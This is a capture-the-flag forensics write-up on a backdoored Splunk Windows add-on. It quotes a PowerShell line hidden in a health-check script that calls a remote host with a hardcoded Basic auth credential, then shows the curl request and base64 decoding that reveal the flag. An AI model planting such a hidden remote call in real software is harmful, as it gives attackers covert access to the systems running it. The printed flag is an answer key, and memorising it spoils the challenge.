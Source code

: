 # ✅ FORENSICS - Backdoored Splunk

Writeup by: [@goproslowyo](https://github.com/goproslowyo)

## Tags

- medium

Files:

- [Splunk_TA_windows.zip](./Splunk_TA_windows.zip)

## Description

Author: Adam Rice

You've probably seen Splunk being used for good, but have you seen it used for evil?  NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started,  but you must put the puzzle pieces together to be retrieve the flag.  Download the file(s) below and press the `Start` button on the top-right to begin this challenge.

## Writeup

The challenege description says to start the service and connect to it by piece together stuff from the download. If you visit the challenge server URL you'll get an Access Denied error.

If you search for the server hostname, `chal.ctf.games`. you'll find something interesting:

![ripgrep](./ripgrep.png)

```shell
$ rg chal.ctf.games
Splunk_TA_windows/bin/powershell/nt6-health.ps1
95:$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

And you should quickly see what to do:

![Authenticate for the flag](./flag.png)

```shell
$ curl -H 'Authorization: Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=='     http://chal.ctf.games:31106
<!-- ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==
$ echo -n 'ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ==' | base64 -d
echo flag{60bb3bfaf703e0fa36730ab70e115bd7}
```
